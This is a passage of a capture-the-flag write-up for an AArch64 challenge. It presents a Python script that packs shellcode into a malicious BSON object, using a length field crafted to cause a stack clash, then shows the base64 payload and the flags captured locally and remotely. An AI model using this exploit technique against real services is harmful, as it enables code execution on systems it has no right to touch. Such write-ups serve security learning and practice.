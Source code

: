 Now all that's missing is to create a malicious BSON object that contains our
shellcode and send that to the website. This is the dirty python script we
used to create the base64 encoded data that we're supposed to send:

```python
import bson
from pwn import *

obj = {
    'CVC': 545,
    'MON': 5,
    'YR': 2021,
    'CC': "AAAAAAAAAAAAAAAAAAAAAA"
}

# lol
os.system("aarch64-linux-gnu-gcc-10 pwn.S -o pwn -static -fno-builtin -Wl,-e_start -nostdlib")
os.system("aarch64-linux-gnu-objcopy --only-section=.text -O binary pwn pwn.bin")
shellcode = open("pwn.bin", "rb").read()

if b"\x00" in shellcode:
    print("try harder!!!!")
    sys.exit()

bs = bson.dumps(obj)

# this is the offset used to make the stack clash with address 0x310
le = 0xf640

l, r = bs.split(b'\x17\x00\x00\x00')
r = r.split(b"AAAAAAAAAAAAAAAAAAAAAA")[1]
r = shellcode + r
res = l + p32(le, endian="little") + r

# add a space since the binary stops reading when it hits a space
print(b64e(res) + " ")
```
And this is the resulting base64 blob:
```none
PgAAABBDVkMAIQIAABBNT04ABQAAABBZUgDlBwAAAkNDAED2AACAaoDS4QMfqogwgNIIAQbR4WYC1AHCgNICEYDSqDCA0ggBBtHhZgLUAcKA0uADAaroAx+q4WYC1PQDH6qAAh/WQUFBQS9mbGcAAA==
```

We can test it locally before running it against the remote service:
```console
$ python3 solve.py |./x.sh
OOO{this_is_from_userland}
qemu-system-aarch64: terminating on signal 15 from pid 2599682 (timeout)
```

Now let's use the helper script mentioned earlier to send our payload to the
server!

```console
$ python3 solve.py > rofl
$ python3 upload.py ./rofl
[+] Payload uploaded to temporary server. Triggering...
200
NO - OOO{if you cant read this youre not part of the forbes 30 under 30}
```
